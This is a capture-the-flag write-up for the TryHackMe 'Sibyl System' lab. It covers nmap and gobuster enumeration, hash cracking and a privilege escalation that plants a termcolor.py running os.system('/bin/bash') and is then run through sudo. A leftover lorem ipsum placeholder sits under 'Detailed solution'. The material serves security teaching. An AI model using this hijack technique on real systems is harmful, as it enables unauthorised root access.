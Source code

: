 # Sibyl System: THM CTF

![date](https://img.shields.io/badge/date-02.07.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![linux category](https://img.shields.io/badge/category-linux-lightgrey.svg)
![score](https://img.shields.io/badge/score-200+-blue.svg)
![solves](https://img.shields.io/badge/solves-1+-brightgreen.svg)

## Description
The theme of the room is based on an Anime named Psycho Pass.
There are two flags in the machine!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

If you face any problem, contact [b31ngd3v](mailto:b31ngd3v@gmail.com)

## Before we start
Make sure -
1. You're connected to the vpn. **```(Important)```**
2. Your adblocker is disabled. [uBlock Origin, adblocker etc.] **```(Important)``` (or the site will not load.)**
3. You're using Chrome browser. **```(Highly Recommended)``` (for better experience)**


## Enumeration
> Q : Scan the machine, how many ports are open?

Open up your terminal and fire up nmap. Run nmap with ```nmap -sC -sV -oA nmap/ss 10.10.226.130```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/image.png?raw=true "nmap result")

Hmm, looks like the http server is running. We should check what is there.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-17-23.png?raw=true "port 80")

> Q : What is the hidden directory?

I'm going to use gobuster to discover the hidden directory. Run ```gobuster dir -u http://10.10.226.130/ -w directory-list-2.3-medium.txt --no-error```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-22-41.png?raw=true "gobuster result")
![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-26-55.png?raw=true "hidden directory")

I tried to login with admin:admin but it failed. Then I tried to intercept requests, but It doesn't sending any requests to verify given credentials.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-27-38.png?raw=true "login")

After inspecting the Login button, I found a function named login.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-28-12.png?raw=true "login")

I searched the function in the html file, and found the function along with username and hashed password.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-30-15.png?raw=true "login")

> Q : What is the password?

The hashed password was easy to crack. I just headed over to crackstation and submited the hash and it returned the password in plain text.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-02%2023-31-42.png?raw=true "crackstation")

## Capture The Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-53-58.png?raw=true "dash")

Now we are logged in as chief. Let's check what permissions we have with ```sudo -l```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-56-04.png?raw=true "permissions")

Note. (ALL, !root) this looks suspicious, there is a chance that sudo is vulnerable. We'll check it later.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-28-51.png?raw=true "users")

Sibyl System has two users, chief and b31ngd3v. Let's check if there is somthing in the home directory of this user.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-55-24.png?raw=true "home")

Yes, we have a python file named `clickjacking-tester.py`. We only have read permission so we can't write init.

```
# Contributor(s): nigella (@nig)

from urllib.request import urlopen
from sys import argv, exit
from termcolor import cprint

__author__ = 'D4Vinci'

def check(url):
    ''' check given URL is vulnerable or not '''

    try:
        if 'http' not in url: url = 'http://' + url

        data = urlopen(url)
        headers = data.info()

        if not 'X-Frame-Options' in headers: return True

    except: return False


def create_poc(url):
    ''' create HTML page of given URL '''

    code = '''
<html>
   <head><title>Clickjack test page</title></head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src='{}' width='500' height='500'></iframe>
   </body>
</html>
    '''.format(url)

    with open(url + '.html', 'w') as f:
        f.write(code)
        f.close()


def main():
    ''' Everything comes together '''

    try: sites = open(argv[1], 'r').readlines()
    except: cprint('[*] Usage: python(3) clickjacking_tester.py <file_name>', 'magenta'); exit(0)

    for site in sites[0:]:
        cprint('\n[*] Checking ' + site, 'blue')
        status = check(site)

        if status:
            cprint(' [+] Website is vulnerable!', 'green')
            create_poc(site.split('\n')[0])
            cprint(' [*] Created a poc and saved to <URL>.html', 'green')

        elif not status: cprint(' [-] Website is not vulnerable!', 'blue')
        else: cprint('Every single thing is crashed, Python got mad, dude wtf you just did?', 'magenta')

if __name__ == '__main__': main()```

## Detailed solution
Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation *ullamco laboris* nisi ut aliquip ex ea commodo consequat.
```

Termcolor in not a default package in python, so if we create a file named termcolor.py in the same directory python will run our file instade of the package files. Let's try this.

```echo "import os;os.system('/bin/bash')" > /home/chief/termcolor.py```

Now run the `clickjacking-tester.py` file as b31ngd3v

```sudo -u b31ngd3v python3 /home/chief/clickjacking-tester.py```

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2000-59-26.png?raw=true "success")

> Q : User Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-00-34.png?raw=true "user.txt")

Now we'll check if sudo is vulnerable or not. (I'm talking about CVE-2019-14287)

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-56-29.png?raw=true "CVE-2019-14287 check")

No, the sudo is not vulnerable. Now let's check if user b31ngd3v is a member of any group or not.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-12.png?raw=true "id")

Yes, we are a member of docker group. Now head over to gtfobins and search for docker.

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-03-45.png?raw=true "gtfobins")

Copy and paste the following line.

> Q : Root Flag

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/Screenshot%20at%202021-07-03%2001-05-28.png?raw=true "sudo access")


## Success

![alt text](https://github.com/b31ngD3v/THM-Writeups/blob/main/images/ezgif-2-76bb9beda24d.gif?raw=true "hacking statue of liberty")
